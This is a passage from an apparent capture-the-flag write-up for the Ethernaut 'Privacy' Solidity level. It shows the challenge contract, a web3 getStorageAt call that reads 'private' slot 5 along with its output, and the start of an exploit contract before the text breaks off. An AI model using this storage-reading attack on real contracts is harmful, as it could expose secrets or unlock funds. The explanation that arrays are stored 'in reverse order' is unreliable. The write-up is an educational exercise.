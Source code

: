 > ```

<hr>


## 12 Privacy
We need to unlock the contract to complete this level.
#### Source:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }

  /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
  */
}
```

To unlock the contract we need to call the `unlock` function with `key`.  This challenge is a bit similar to `Valut` challenge. As we can see that the data array is stored in the storage and we can read the storage. But before that we have understand how the storage actually works, I found [this](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/) blog which explains that in a good brief.
So the 3rd element of the bytes array will be stored at 5th slot since the array will be stored in the reverse order. We submit the key from our exploit.

> #### Solution:
> - We need to obtain the data stored at the 5th slot.
> 
> ```js
> await web3.eth.getStorageAt(instance,5);
> /* "0x81391acc1432a12ec8ae3c2524fc5501964e0bb757ec15f6587ecce3d61084c8" */
> ```
> - We submit the key using our exploit contract.
> 
> ```solidity
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.8.0;
> 
> interface privacy {
>     function unlock(bytes16 _key) external;